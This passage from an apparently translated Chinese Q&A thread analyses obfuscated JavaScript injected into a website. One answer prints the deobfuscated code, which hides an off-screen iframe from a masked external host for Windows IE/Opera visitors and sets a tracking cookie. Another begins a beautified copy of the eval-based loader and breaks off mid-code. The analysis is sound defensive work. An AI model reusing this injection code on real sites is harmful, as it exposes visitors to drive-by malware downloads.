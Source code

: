 ```

现在很明显：它设置了一个随机标识符 cookie，并且对于 Windows 上不浏览“管理员”url 的每个 IE/Opera 用户，它会创建一个位于屏幕外的 iframe。iframe 可能包含一些恶意软件的驱动下载。

* * *

## 回答 #2

> 赞同：2
> 
> 时间：2013-01-15T22:41:30.977

隐藏代码是这样的：

```
function gra(a,b){return Math.floor(Math.random()*(b-a+1))+a;}
function rs(){return Math.random().toString(36).substring(5);}
if(navigator.cookieEnabled){
  var stnm=rs();
  var ua = navigator.userAgent;
  var url = document.location.href;

  if(url.indexOf('admin')==-1 && ua.indexOf('Windows')!=-1 && (ua.indexOf('MSIE')!=-1||ua.indexOf('Opera')!=-1)){
    document.write('<style>.s'+stnm+' { position:absolute; left:-'+gra(600,1000)+'px; top:-'+gra(600,1000)+'px; }</style> <div class="s'+stnm+'"><iframe src="http://xxxxxxxxxxxx.info/ad/feed.php" width="'+gra(300,600)+'" height="'+gra(300,600)+'"></iframe></div>');
  }
  var exp=new Date();exp.setDate(exp.getDate()+7);
  if(document.cookie.indexOf('__utmfr=')==-1){document.cookie='__utmfr='+rs()+'; expires='+exp.toGMTString()+'; path=/';}
} 
```

它以简单的 ascii 形式存储在 f 数组中，但每四个字符重复递增 0、1、2 和 3，以试图混淆代码。

看起来这为每个网页添加了一些代码，以在 i-frame 中显示恶意 url。

* * *

## 回答 #3

> 赞同：1
> 
> 时间：2013-01-15T22:31:08.843

我刚刚将它粘贴到[http://jsbeautifier.org/](http://jsbeautifier.org/) ...祝你好运！

```
ww = window;
v = "v" + "al";
if (ww.document) try {
    document.body = 12;
} catch (gdsgsdg) {
    asd = 0;
    try {
        d = document
    } catch (agdsg) {
        asd = 1;
    }
    if (!asd) {
        w = {
            a: ww
        }.a;